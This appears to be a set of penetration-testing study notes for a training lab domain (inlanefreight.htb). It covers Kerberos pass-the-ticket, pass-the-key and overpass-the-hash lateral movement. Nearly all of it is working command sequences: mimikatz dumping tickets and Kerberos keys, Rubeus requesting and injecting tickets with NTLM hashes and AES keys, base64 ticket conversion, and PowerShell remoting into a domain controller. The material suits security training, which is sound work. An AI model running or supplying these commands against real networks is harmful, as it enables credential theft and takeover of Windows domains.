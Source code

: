 
Use stolen Kerberos ticket to move laterally instead of an NTLM password hash.

- TGT - Ticket Granting Ticket: first ticket, allows client to obtain additional tickets
- TGS - Ticket Granting Services: requested by users who want to use a service, which verify the user's identity

```cmd-session
mimikatz.exe
```
```cmd-session
privilege::debug
```
```cmd-session
sekurlsa::tickets /export
```
```cmd-session
exit
```
```cmd-session
dir *.kirbi
```

Format of ticket files: 
[randomvalue]-username@service-domain.local.kirbi

If service is krbtgt, then it is a TGT of that account

```cmd-session
Rubeus.exe dump /nowrap
```
(dumps ticket in base64)

#### Pass the Key or OverPass the Hash

Converts hash/key into a TGT

Extract Kerberos Keys
```cmd-session
mimikatz.exe
```
```cmd-session
privilege::debug
```
```cmd-session
sekurlsa::ekeys
```

Mimikatz - Pass the Key or OverPass the Hash
```cmd-session
mimikatz.exe
```
```cmd-session
privilege::debug
```
```cmd-session
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

Rubeus - Pass the Key or OverPass the Hash
```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

Mimikatz needs admin rights while Rubeus doesn't.


Rubeus Pass the Ticket
```cmd-session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

(Import .kirbi file)
```cmd-session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

In PowerShell, convert .kirbi to Base64 format
```powershell-session
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

Pass the Ticket - Base64 format
```cmd-session
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/
```

```cmd-session
mimikatz.exe
```
```cmd-session
privilege::debug
```
```cmd-session
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
```cmd-session
exit
```
```cmd-session
dir \\DC01.inlanefreight.htb\c$
```

misc::cmd
(this command opens cmd prompt in mimikatz)


#### PowerShell Remoting
Must be a member of Remote Management Users group, does not need admin privileges

```cmd-session
mimikatz.exe
```
```cmd-session
privilege::debug
```
```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```
```cmd-session
exit
```
```cmd-session
powershell
```
```cmd-session
Enter-PSSession -ComputerName DC01
```

Rubeus Sacrificial Process
```cmd-session
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
```cmd-session
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```
```cmd-session
powershell
```
```cmd-session
Enter-PSSession -ComputerName DC01
```


